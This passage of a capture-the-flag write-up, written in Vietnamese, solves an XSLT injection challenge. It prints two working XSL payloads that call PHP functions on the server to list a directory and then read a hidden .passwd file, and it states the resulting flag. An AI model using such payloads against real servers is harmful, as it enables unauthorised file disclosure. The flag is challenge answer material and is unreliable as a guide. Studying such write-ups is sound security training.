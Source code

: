 ![image](https://hackmd.io/_uploads/BkT-W4We1e.png)

Đề bài nói là file .passwd nằm trong 1 thư mục thì có vẻ là ở `.6ff3200bee785801f420fba826ffcdee`

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','./')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

![image](https://hackmd.io/_uploads/H1oBZNZgJx.png)

![image](https://hackmd.io/_uploads/rJ5D-N-gkl.png)

![image](https://hackmd.io/_uploads/SkS9ZV-ekx.png)

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','./.6ff3200bee785801f420fba826ffcdee/.passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

flag: `X5L7_R0ckS`

## Elixir - EEx
